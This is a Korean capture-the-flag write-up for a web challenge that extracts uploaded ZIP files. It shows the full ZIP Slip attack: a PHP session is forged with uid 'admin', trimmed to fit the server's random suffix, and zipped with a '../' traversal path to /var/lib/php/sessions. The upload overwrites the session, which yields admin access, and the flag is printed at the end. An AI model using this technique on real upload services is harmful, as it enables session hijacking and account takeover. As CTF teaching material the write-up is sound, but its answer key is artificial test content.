





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

zip파일을 업로드하면 압축해제하여 각 파일들을 {현재 경로}/upload/파일 이름+{8자리 숫자}에 복사한다.

이 때, ZIP Slip 취약점이 터질 경우 세션을 덮어쓸 수 있을거라고 판단된다.

먼저, apache + php 서버를 구축하고, 세션을 저장하자.

```php
<?php
// index.php
        session_start();
        $_SESSION['uid'] = "admin";
?>
```

Apache/2.4.29, PHP 7.2.24 기준 세션 경로는 /var/lib/php/sessions/이다.

위에 만들었던 페이지에 접속하면 다음과 같이 세션이 생성된다.

```shell
root@ubuntu:~# cd /var/lib/php/sessions/
root@ubuntu:~# cat sess_9lf514ib6bqm85sgln42g3g73r
uid|s:5:"admin";
```

문제에서 8자리 랜덤 숫자를 추가하기 때문에 8자리를 잘라 주자.

```shell
mv sess_9lf514ib6bqm85sgln42g3g73r sess_9lf514ib6bqm85sgln
```

ZIP Slip 공격을 하기 위해 경로를 입력하여 압축하자.

```shell
zip ./2honrr.zip ../../../../../../../../../../var/lib/php/sessions/sess_9lf514ib6bqm85sgln
```

이 파일을 업로드하여 파일명과 실패 여부를 확인하자.



업로드가 되었다면 PHPSESSID값을 바꾸자.



재 접속을 하면 FLAG를 획득할 수 있다.



세션 정보가 바뀌었으니 로그아웃됐을 것이다. 세션을 삭제 후 재로그인 후 FLAG를 인증하여 점수를 획득하자.




# **FLAG**

**FLAG{my_zip_is_sliping_beauty}**